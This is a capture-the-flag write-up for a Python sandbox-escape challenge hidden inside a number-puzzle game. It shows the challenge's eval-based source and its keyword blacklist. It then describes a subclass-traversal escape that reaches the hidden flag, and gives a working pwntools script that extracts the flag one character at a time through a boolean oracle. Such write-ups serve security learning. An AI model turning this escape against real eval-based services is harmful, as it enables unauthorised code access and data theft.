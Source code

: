 +++
title = 'Grey Cat the Flag 2025 - misc/countle-training-centre'
date = 2025-06-01T19:02:16-04:00
draft = false
+++

The challenge presents a math game where we have to solve expressions to reach target numbers 1,1,000,000. 
```shell
╔════════════════╗
║ Puzzle #1      ║
╚════════════════╝
 Target: 234
 Nums: 25 6 2 4 3 4

```
The actual challenge is escaping a python sandbox. Looking at the source:

```python
#!/usr/local/bin/python

from re import match
from sys import exit
from time import sleep
from countle_puzzle import generateSolvablePuzzle

def format(s):
    return (s.replace('~E',"\033[0m").replace('~R',"\033[0;1;31m").replace('~N',"\033[0;1;7;31m")
      .replace('~w',"\033[7;37m").replace('~u',"\33[4;31m").replace('~Gr',"\33[0;90m").replace('~r',"\33[0;31m")
      .replace('~G',"\033[0;1;32m").replace('~B',"\033[1;34m")).replace('~W',"\033[1;4;37m")

def banner():
    return format(r"""
  ~R(     *   )    (
  )\  ` )\  /(   )\
 (((_)  ( )(_))(((_)
)\\~E___ ~R(~E_~R(~E_~R()) )\\~E___
~R((~w/ __|~E ~w|_   _|~R((~w/ __|~E
 ~w| (~E__    ~w| |~E   ~w| (~E
  ~w\___|~E   ~w|_|~E    ~w\___|~E

     ~RWelcome to the~E
~NCountle Training Centre!~E
""")

def goal():
    return format(r"""
~RToday's Goal:~E
 ╔════════════════════╗
 ║ ~u1,000,000~E problems ║
 ╚════════════════════╝
            ~Gr^consecutive~E
""")

def menu():
    return ("""
Menu:
 [S] Start Challenge
 [H] Help
 [B] Blacklist
 [Q] Quit
 """)

def help():
    return format(r"""~WHow to play?~E

Combine the given numbers using
  ~Baddition (+)~E,
  ~Bsubtraction (-)~E,
  ~Bmultiplication (*)~E, and
  ~Bdivision(/)~E
to reach the target.

~R!! No negative numbers or fractions allowed !!~E

For e.g.
  ~BTarget: 947
  Nums: 100 7 4 5 9 7~E

  Valid solution:
  ~G((100 + 7) * (4 + 5) - 9 - 7)~E
""")

# Blacklisted word, not allowed in input
BLACKLIST = ['breakpoint', 'builtins' 'cat', 'compile', 'dict', 'eval', 'exec', 'getframe',
             'help', 'import', 'input', 'inspect', 'open', 'os', 'sh', 'signal' 'subprocess', 'system']

def blacklist():
    return format(r"""~RBlacklist:~E
 ~rbreakpoint
 builtins
 cat
 compile
 dict
 eval
 exec
 getframe
 help
 import
 input
 inspect
 open
 os
 sh
 signal
 subprocess
 system~E
""")

# Remove breakpoint and help, too powerful
__builtins__.__dict__.pop('breakpoint')
__builtins__.__dict__.pop('help')

def checkAnswer(expr, target):
    result = eval(expr, {'FLAG':"no flag for you", "__builtins__": None})
    return result == target

def challenge():
    for _ in range(1000000):
        n,t = generateSolvablePuzzle()
        print("╔════════════════╗")
        print("║ Puzzle #" + str(_+1).ljust(6) + " ║")
        print("╚════════════════╝")
        print(format(r" ~BTarget: " + str(t) + "\n Nums:"), *n, format(r"~E"), "\n")
        expr = input(" Your Answer:\n > ")
        print()

        if (not match(r"[0-9+\-*/()]+", expr)):
            return (print(format("~RThat is not a valid expression. Read 'Help' for more info.~E")))
        elif (len(expr) > 160):
            return (print(format("~RWhat are you doing with so many characters? Read 'Help' for more info.~E")))
        for b in BLACKLIST + [str(t)]:
            if b in expr:
                return (print(format("~RBlacklisted word is not allowed: "+b+"~E")))
        if (not checkAnswer(expr, t)):
            print(format(" ~Rtsk tsk tsk...\n Your answer is wrong!\n I'm dissapointed...~E"))
            exit(0)
        else:
            print(format(" ~GCorrect!~E\n"))
            sleep(0.1) # rate limit
        if (_ == 999999):
            print(format(" ~GCongrats!! Here is your flag:\n   " + FLAG + "~E"))
            exit(0)


FLAG = "flag{placeholder}}"

if __name__ == "__main__":
    print(banner())
    print(goal())
    while (1):
        print(menu())
        choice = input("> ").upper()[0]
        print()
        if (choice == 'S'):
            challenge()
        elif (choice == 'H'):
            print(help())
        elif (choice == 'B'):
            print(blacklist())
        elif (choice == 'Q'):
            exit(0)

```


```python
def checkAnswer(expr, target):
    result = eval(expr, {'FLAG':"no flag for you", "__builtins__": None})
    return result == target
```

The `checkAnswer` function, which:
- Uses `eval()` to execute user input
- Sets `__builtins__` to `None` (disabling built-in functions)
- Overwrites `FLAG` with a fake value in the local context
- Only returns boolean result (doesn't print the actual evaluation)



```python
if (not match(r"[0-9+\-*/()]+", expr)):
    return (print(format("~RThat is not a valid expression...")))
```

There is regex validation on user input, and blacklist:

```python
BLACKLIST = ['breakpoint', 'builtins' 'cat', 'compile', 'dict', 'eval', 'exec', 
             'getframe', 'help', 'import', 'input', 'inspect', 'open', 'os', 
             'sh', 'signal' 'subprocess', 'system']
```

One issue is that  match only checks the beginning of a string, not the whole string!

```python
if (not match(r"[0-9+\-*/()]+", expr)):
```

We can use `()`, so we can access Python's object heirarch through the empty tuple:

```python
().__class__.__base__.__subclasses__()
```
This gives us access to all classes that inherit from `object`, which includes many useful classes with access to modules and built-in functions.



Afer playing around for a while I found `_sitebuiltins.Quitter` at index 156 which works perfectly:

```python
().__class__.__base__.__subclasses__()[156].__init__.__globals__
```

One issue I ran into was the server was running an older version of python, so the list of subclasses was different. We were given a Dockerfile so I used that for local testing and finding the right offset.

### Step 3: Accessing the Real FLAG

The real FLAG variable exists in the `__main__` module's global scope, which we can access via:

```python
().__class__.__base__.__subclasses__()[156].__init__.__globals__['sys'].modules['__main__'].FLAG
```

Since `eval()` doesn't print results, we need to extract the flag character by character using boolean logic:

```python
(().__class__.__base__.__subclasses__()[156].__init__.__globals__['sys'].modules['__main__'].FLAG[0]=='f')+TARGET-1
```

We are supposed to be evauling math expressions. If our answers = Target, then we get back `Correct!`, otherwise `Wrong`. We can compare a byte in the flag to a char, and if it is correct, our expression evaluates to `True`. True in python is equal to 1, and False is zero. So if we add a True expression to Target -1, we get the correct value and `Correct!`. Using this, we can extract the flag byte by byte. See script below:


```python
from pwn import *
import time

context.log_level = "ERROR"


flag = "grey{"
index = 5
all_chars = '1234567890_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\()*+,-./:;<=>?@[\\]^_{|}~'


while True:
    for ch in all_chars:
        target = remote("challs.nusgreyhats.org", 33401 )
        target.sendline("S")
        target.recvuntil("Target: ")
        value = int(target.recvuntil("\n", drop=True)) - 1
        target.recvuntil(b"> ")
        payload = f"(().__class__.__base__.__subclasses__()[156].__init__.__globals__['sys'].modules['__main__'].FLAG[{index}]=='{ch}')+{value}"
        target.sendline(payload)
        resp = target.recvall(timeout=1)
        if b"Correct!" in resp:
            flag +=ch
            index += 1
            print(flag)
            target.close()
            break
        else:
            time.sleep(.05)
            target.close
```

`grey{4_w0r1D_c1As5_c0Un7L3_p1aY3r_1n_0uR_mId5t}`

